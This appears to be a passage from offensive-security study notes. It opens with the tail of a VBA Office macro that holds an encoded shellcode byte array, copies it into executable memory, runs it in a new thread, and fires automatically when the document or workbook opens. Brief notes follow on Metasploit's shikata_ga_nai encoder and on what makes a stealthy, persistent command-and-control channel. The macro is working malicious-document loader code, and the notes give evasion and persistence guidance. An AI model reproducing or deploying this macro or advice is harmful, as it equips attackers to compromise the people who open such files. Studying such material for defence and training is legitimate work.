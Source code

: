 ```vbs
5,173,52,252,31,148,197,162,202,133,232,12,84,209,36,62,40,98,178,21,114,122,94,124,144,245,82,131,82,161,80,13,199,135,207,251,235,116,140,174,13,250,31,246,42,247,250,81,171,38,67,175,150,173,68,156,106,37,142,17,165,183,222,170,50,124,207,93,0,202,96,214,249,244,101,31,189,168,243,13, _
134,49,154,177,42,179,75,35,208,125,222,5,148,246,146,122,55,250,86,119,165,143,80,112,80,4,26,168,76,73,173,166,135,42,159,173,90,42,31,170,201,147,99,242,128,228,210,182,201,243,43,248,20,50,245,45,20,20,2,193,101,136,178,40,194,132,32,203,50,1,58,175,76,216,235,1,49,128,189,116, _
240,254,12,101,151,2,151,60,95,207,36,69,59,240,169,165,161,160,121,15,33,78,40,127,69,136,221,57,90,59,205,41,16,188,173,48,109,165,212,145,43,169,211,31,104,61,1,32,60,134,211,148,140,142,43,131,69,119,24,210,101,10,14,228,182,251,12,73,22,246,128,181,182,223,224,97,244,251,139,125, _
169,55,119,83,8,227,64,144,233,217,124,30,153,192,42,220,19,147,83,254,108,159,164,235,175,253,225,241,174,48,30,169,3,132,32,155,225,89,78,182,123,69,174,123,169,107,30,74,50,215,173,47,64,56,165,76,121,13,194,115,150,168,137,78,20,183,147,91,132,56,152,229,85,149,118,18,175,193,123,105, _
98,185,37,87,12,220,206,118,169,50,83,137,73,6,164,132,75,199,27,114,238,61,0,156,112,86,234,36,125,252,72,195,72,251,185,13,148,229,133,18,189,29,210,182,251,150,44,110,94,7,71,176,247,15,101,57,235,121,67,13,228,7,80,247,104,248,6,75,80,234,17,140,109,248,98,109,198,149,170,173, _
23,104,166,91,211,133,18,126,101,169,209,21,250,137,13,198,180,215,251,72,84,55,135,135,249,241,121,240,1,38,141,138,150,145,216,231,71,230,32,126,218,54,55,76,15,134,14,11,81,192,95,200,180,208,32,199,76,249,159,117,174,61,201,130,66,228,229,237,245,179,173,253,172,25,250,106,193,199,136,36, _
131,147,217,234,174)

	Kjpjr = VirtualAlloc(0, UBound(Omagfa), &H1000, &H40)
	For Nunfzfwl = LBound(Omagfa) To UBound(Omagfa)
		Ljcndgm = Omagfa(Nunfzfwl)
		Jnjbycok = RtlMoveMemory(Kjpjr + Nunfzfwl, Ljcndgm, 1)
	Next Nunfzfwl
	Jnjbycok = CreateThread(0, 0, Kjpjr, 0, 0, 0)
End Sub
Sub AutoOpen()
	Auto_Open
End Sub
Sub Workbook_Open()
	Auto_Open
End Sub
```

#### Aside: shikata-na-gai encoder

- a _polymorphic XOR additive feedback encoder_
- links
    - https://www.rapid7.com/db/modules/encoder/x86/shikata_ga_nai
    - https://github.com/rapid7/metasploit-framework/blob/master/modules/encoders/x86/shikata_ga_nai.rb
- generates different output on each run
- the output can only be recognised by actually running the code in a VM or
  sandbox

### Charactersitcs of a good C2

1. Egress connectivity
    - The client must be able to initiate connections back to the C2 server
    - needs to do this in a way to minimize firewall interference
1. Stealth - avoid detection by host IDS or network IDS
1. Remote filesystem access
    - be able to copy files to/from the compromised system
1. Remote command execution on the compromised system
1. Secure communications
    - traffic between C2 client and server should be encrypted to prevent
      responders from seeing what actions have been taken
1. Persistence
    - C2 client must be able to survive reboots
1. Port forwarding
    - We want to be able to redirect traffic bi-directionally via the
      compromised host
1. Control thread
    - Ensure that connection to the C2 server is re-established in the event of